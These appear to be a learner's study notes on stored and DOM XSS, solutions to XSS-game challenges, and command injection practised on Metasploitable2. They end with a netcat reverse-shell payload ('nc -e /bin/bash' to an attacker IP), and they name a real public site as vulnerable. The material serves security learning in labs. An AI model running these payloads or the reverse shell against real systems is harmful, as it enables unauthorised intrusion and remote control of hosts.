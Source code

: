 #### Stored XSS
##### practical using meta2
- step 1 - login as admin p - password 
- step 2 - insert tag in input filed 
	- `` <script>alert("Hacker hai tu "); </script> ``
step 3 - login as 
	- pablo : letmein
- you will see pop up as alert 


#### DOM XSS 

- it will work in url as document 
##### practical using XSS game 
- here [link](https://xss-game.appspot.com/) 
- steps for clearing levels 
- level 1
	- `` <script>alert("Hacker hai tu "); </script> ``
- level 2
	- `` <img src=1 href=1 onerror="javascript:alert(1)"></img>``
- level 3
	- ``1' <img src=1 href=1 onerror="javascript:alert(1)"></img>``
- level 4
	-  ?timer=``3');alert('a)``
- level 5 
	- next=``javascript:alert()``
- level 6
	- frame``#data: text/plain,alert()``


- testing http://vulnweb.com/

### Command Injection Attacks

- Command injection vulnerability in a web application allows attackers to inject untrusted data and execute it as part of regular command or query
- Attacker use specially crafted malicious commands or queries to exploit these vulnerabilities which may result in data loss.
- Injection attacks are passable because of poor web development capabilities

TO run commands in web application 

- run in input fildes that uses
- use case 
	- ping 
- using  "; "and |  execute commands

when you can run this only if there is input field that allows   commands execute
- website that has vulnerability 
	- ping.eu 

##### Getting shell access on meta2 using command injection 
- To get shell using netcat
- run netcat in local machine 
	- nc -lvp 1234
- run necat command in target input field 
	- |  nc -e /bin/bash 10.10.10.4 1234 (-e gives shell access)
